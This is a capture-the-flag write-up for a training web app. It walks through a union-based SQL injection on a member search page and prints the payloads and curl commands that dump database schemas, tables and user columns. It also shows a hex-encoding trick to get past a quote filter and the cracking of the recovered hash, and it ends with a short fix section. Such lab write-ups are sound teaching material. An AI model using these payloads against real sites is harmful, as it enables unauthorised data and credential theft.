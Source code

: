 # Union Based SQL Injection in search member page

## 📖 Vulnerability Explanation
The server uses the URL parameter _id_ to query the database. The input is provided by the user and not sanitized, leading to a potential abuse where SQL statements can be injected to retrieve information (SQLi). 

## ⚙️ Exploitation Process
The methodology we used in this exercise first focuses on gaining situational awareness of the database, and then proceeds to retrieve information.

We decided to present two different methods: one using the input box on the webpage, and the other using ```curl``` in the terminal.

---

**1. Dump databases**

```
0 UNION SELECT 1,schema_name FROM information_schema.schemata; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+1%2Cschema_name+FROM+information_schema.schemata%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.*<br\/>//' | sed 's/<\/pre>//' | grep -v table | awk '{print $3}'
```

---

**2. Dump tables**

```
0 UNION SELECT table_schema,table_name FROM information_schema.tables; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+table_schema%2Ctable_name+FROM+information_schema.tables%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Database   : /' | sed 's/Surname : /[-] Table name : /' | grep -v table
```

---

**3. Dump columns of table _users_**

We use the hexadecimal representation of the string _"users"_ to bypass the blocked characters, which are single and double quotes.


```
echo -n 'users' | xxd -p
```

```
0 UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name=0x7573657273; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+1%2Ccolumn_name+FROM+information_schema.columns+WHERE+table_name%3D0x7573657273%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/Surname : //' | grep -v 'First name' | grep -v table
```

---

**4. Read the columns _Commentaire_ and _countersign_**

```
0 UNION SELECT Commentaire,countersign FROM Member_Sql_Injection.users; -- -
```

```
curl -s 'http://BornToSec.com/?page=member&id=0+UNION+SELECT+Commentaire%2Ccountersign+FROM+Member_Sql_Injection.users%3B+--+-&Submit=Submit' | grep pre | python3 -c "from bs4 import BeautifulSoup; import sys; print(BeautifulSoup(sys.stdin.read(), 'html.parser').prettify())" | sed 's/.* <br\/>//' | sed 's/<br\/>/\n/' | sed 's/<\/pre>//' | sed 's/First name: /\n[+] Commentaire : /' | sed 's/Surname : /[-] Countersign : /' | grep -v table
```

---

**5. Crack the hash and craft the flag using the steps provided**

To craft the flag, we must follow the instructions found on the previous step: _```Decrypt this password -> then lower all the char. Sh256 on it and it's good !```_

![](./CrackStation.png)

```
echo -n 'fortytwo' | sha256sum
```

## 🧰 Additional Resources Used
We used ```https://crackstation.net/``` to crack the hash. This page doesn't really _crack_ the hash you provide, but performs a lookup on pre-computed hashes instead.

## 🔧 Fix
To protect against SQLi, it is crutial to always sanitize the users' input before querying the database. It is also possible to use an ORM or library to query the database securely and avoid manual sanitization.

## ☝️🤓 Advanced explanation
In this case, we could get the data from the database on the response page. However, there are many other scenarios that require other techniques to dump the data.

- https://www.acunetix.com/websitesecurity/sql-injection2/

There are many techniques that can be used to bypass filtering and perform SQLi. We faced this issue, as quotes were not working in our injection scenario.

- https://portswigger.net/support/sql-injection-bypassing-common-filters
